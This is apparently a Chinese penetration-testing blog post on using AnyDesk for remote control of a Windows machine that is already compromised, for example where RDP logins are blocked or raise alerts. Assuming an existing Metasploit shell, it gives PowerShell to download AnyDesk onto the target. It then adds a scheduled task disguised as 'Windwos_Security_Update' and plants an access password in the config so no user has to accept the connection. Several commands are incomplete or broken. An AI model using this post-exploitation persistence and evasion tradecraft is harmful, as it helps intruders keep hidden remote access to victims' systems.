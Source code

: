 ```yaml
---
title: 使用anydesk做远控
top: false
categories:
- 渗透测试
tags:
- 远控
- anydesk
abbrlink: 15621
date: 2020-09-10 10:12:45
keywords:
summary:
img:
password:
---
```


> anydesk是类似teamviewer的远程管理软件，但是他不用安装且体积小



### 场景举例

- 有云锁，护卫神等禁止3389登录时
- 类似阿里云这种，登录3389会报警
- 连接内网中可以出网的windows机器



### 注意事项

- 启动anydesk的权限需要桌面用户权限，比如，IIS做中间件的环境中，拿到了webshell一般都
  是没有桌面用户权限的，如果启动anydesk不会成功
- 启动anydesk时桌面不能被注销
- 有可能连接上去是黑屏，这个是因为该桌面用户退出远程桌面但没有注销，此时，除非能用
  winlogon启动anydesk，否则没法使用屏幕





### 使用方法

1. 习惯性的使用https://www.virustotal.com/gui扫描一下

2. 假设获取到了目标系统的一个msf的shell

   ```bash
   # 下载anydesk到一个公共目录下
   (New-Object System.Net.WebClient).DownloadFile("https://download.anydesk.com/AnyDesk.exe?_ga=2.176752485.1141763109.1599703967-925913843.1599703967","C:\Users\Public\Desktop\anydesk.exe")
   
   # 确定有哪些用户正在使用桌面???
   (((Get-WmiObject -Class Win32_Process -Filter 'Name="explorer.exe"').GetOwner().))
   
   # 启动一个计划任务，启动的用户为上个步骤选中的用户???
   schtasks /Create /TN Windwos_Security_Update /SC monthly /tr "c:\......"
   
   # 先执行一次计划任务，生成配置文件
   schtasks /run /tn Windwos_Security_Update
   
   # 等待几秒，等anydesk成功连接到网络，再把anydesk进程杀掉，dir看用户下面是否生成配置文件，然后再service.conf里面的添加密码(AnyDeskGetAccess)
   
   
   # 查看anydeskID并启动anydesk
   
   
   # 不需要到目标机器上点击接受，输入密码即可
   
   
   # 分享一个高权限webshell下可以使用的powershell脚本
   
   ```

<img src="http://image.geoer.cn/image-20200910104429278.png" ></img>

   















































